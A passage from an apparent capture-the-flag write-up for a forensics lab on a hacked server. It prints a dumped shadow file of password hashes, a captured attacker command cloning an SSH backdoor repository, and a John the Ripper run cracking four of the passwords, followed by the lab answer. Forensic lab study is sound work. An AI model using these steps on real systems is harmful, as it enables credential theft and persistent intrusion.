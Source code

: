 ```
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor
```

`https://github.com/NinjaJc01/ssh-backdoor`

8. Using the fasttrack wordlist, how many of the system passwords were crackable?

```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

```
kali@kali:~/CTFs/tryhackme/Overpass 2 - Hacked$ john shadow --wordlist=wordlist.txt
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
4g 0:00:00:00 DONE (2020-10-05 18:15) 7.017g/s 315.7p/s 1578c/s 1578C/s P@55w0rd..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

`4`

## Task 2 Research - Analyse the code

